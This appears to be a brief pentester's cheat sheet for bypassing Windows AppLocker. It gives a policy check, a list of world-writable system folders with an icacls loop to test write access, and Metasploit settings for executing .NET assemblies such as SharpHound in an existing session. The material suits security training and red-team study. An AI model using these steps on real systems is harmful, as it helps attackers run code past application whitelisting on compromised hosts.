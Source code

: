 # AppLocker CockBlocker

- Bascially makes life a pain in the ass by preventing execution of your favourite executables unless they are in whitelisted location

Reference: (https://juggernaut-sec.com/applocker-bypass/)

## Checking if AppLocker is live

```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

## Check if Default World-Writeable Folders are well Writable for your User

Compile the following into a txt file

```
C:\Windows\Tasks 

C:\Windows\Temp 

C:\windows\tracing

C:\Windows\Registration\CRMLog

C:\Windows\System32\FxsTmp

C:\Windows\System32\com\dmp

C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys

C:\Windows\System32\spool\PRINTERS

C:\Windows\System32\spool\SERVERS

C:\Windows\System32\spool\drivers\color

C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter

C:\Windows\System32\Tasks_Migrated

C:\Windows\SysWOW64\FxsTmp

C:\Windows\SysWOW64\com\dmp

C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter

C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
```

Then on a cmd prompt, run the following script to see which folders you have Write perms

```cmd
for /F %A in (C:\temp\icacls.txt) do ( cmd.exe /c icacls "%~A" 2>nul | findstr /i "(F) (M) (W) (R,W) (RX,WD) :\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo. ) 
```

## Via ADS



##  Via God-Tier Meterpreter's Post Exploit Module Execute dotnet Assembly

https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/manage/execute_dotnet_assembly.md

```
set SESSION 1

set DOTNET_EXEC <path to the exe you want executed>

set ARGUMENTS <the flags and commands you will pass to the DOTNET_EXEC>

# For example, if i want to run sharphound.exe

set DOTNET_EXEC ./SharpHound.exe

set ARGUMENTS -c ALL --outputdirectory C:\Users\Public
```


